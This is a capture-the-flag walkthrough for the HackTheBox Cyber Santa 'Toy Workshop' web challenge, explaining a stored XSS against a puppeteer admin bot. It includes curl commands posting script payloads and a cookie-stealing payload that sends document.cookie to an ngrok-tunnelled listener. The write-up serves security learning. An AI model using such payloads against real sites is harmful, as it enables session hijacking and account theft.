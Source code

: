 ```yaml
---
title: Toy Workshop - Web
sidebar_position: 3
description: Walkthrough for the HackTheBox 2021 Cyber Santa competition challenge Toy Workshop in the web category.
---
```

## Challenge Name: Toy Workshop
### Topic: Web
### Challenge Prompt
`The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?`

### Walkthrough
This challenge has both a downloadable part and a docker service to accompany it. Download the challenge archive and extract it to see it's a node webserver.  
Start the docker service, going to that service brings us to a fun little animation of packages moving on a conveyor belt.  
Looking through the code given to use, we can see the internal workings of what is presumably running on the docker service. This webserver has a couple interesting files, notably:
`database.js`  
`routes/index.js`  
`bot.js`  

Lets look at `routes/index.js` first. We can see a route to `/api/submit` that allows post requests. It looks like its adding a "query" in a sqlite3 db that gets retrieved later. We see there's another endpoint at `/queries` that displays the queries submitted to `/api/submit` endpoint. It has a localhost restriction on it though, so my first though it some sort of xss attack later on.  
Switching over to `bot.js`, we see this is where the flag is being set as cookies and where puppeteer is being setup to navigate to the `/queries` endpoint as localhost. This has confirmed the earlier suspicion that it is an XSS attack.

Looking at `database.js`, we can see the logic for inserting queries into the database and for displaying them later on. I got stuck on this code for awhile, but it's not as important as the other two.  

Lets send some test queries to `/api/submit` using curl and see what we get back.

Command: `curl -H "Content-Type: application/json" -d '{"query": "1234"}' -X POST 138.68.184.31:30881/api/submit`   

Response: `{"message":"Your message is delivered successfully!"}`

We knew what parameters to supply due to having access to the source code, more specifically that information is found in `routes/index.js` on line 15: `const { query } = req.body;`  

So we know so far that it's most likely an XSS attack since puppeteer is being used to access the `/queries` endpoint as localhost so lets send some payloads and see what happens.  
Command: `curl -H "Content-Type: application/json" -d '{"query": "<script>console.log(document.cookie)</script>}' -X POST http://138.68.184.31:32360/api/submit`  
Response: `{"message":"Your message is delivered successfully!"}`

But we have an issue, we can't access `/queries` where the XSS attack will be executed, also this attack will only display our cookies to the console. Not send them to a place we can access. Luckily there's a solution to this issue and it's called `ngrok`.  

Ngrok allows you to tunnel a localhost webserver onto the wide internet. We can do this by first creating a directory for the webserver, then running `python -m http.server &` and then `ngrok http 8000`, after executing that command we'll be given a domain name to use in our attacks.

Now lets try an attack from a really useful resource over at https://0xhorizon.eu/cheat-sheet/xss/. The "get cookies from another user" is exactly what we're looking for. Modifying it with out ngrok domain gives us the following payload:  
`<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"` *note the escaped strings, that got me for awhile*

Inserting this into our curl command gives us the following complete payload:
`curl -H "Content-Type: application/json" -d '{"query": "<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"}' -X POST 138.68.184.31:30881/api/submit` Execute this payload and wait a couple of seconds and the flag should show in the terminal tab with ngrok:

![image](/img/cyber_santa/flag_ngrok.png)

